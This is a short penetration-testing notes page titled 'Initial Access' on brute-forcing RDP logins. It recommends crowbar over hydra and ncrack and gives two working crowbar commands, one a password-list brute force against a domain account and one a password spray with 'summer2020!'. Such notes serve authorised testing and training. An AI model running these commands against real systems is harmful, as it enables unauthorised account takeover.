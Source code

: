 ```yaml
---
title: "Initial Access"
date: 2020-07-17T20:56:11+02:00
draft: false
---
```


####  RDP brute forcing
RDP brute forcing can be done using hydra or ncrack, but experience with crowbar has been best.
Basic usage:
```
$ ./crowbar.py -b rdp -u DOMAIN\\user -C passwords.txt -s 10.68.35.150/32
```
Local users can also be attacked (when no domain is specified). It's also possible to perform a password spraying attack on your target:
```
$ ./crowbar.py -b rdp -U users.txt -c 'summer2020!' -s 10.68.35.150/32
```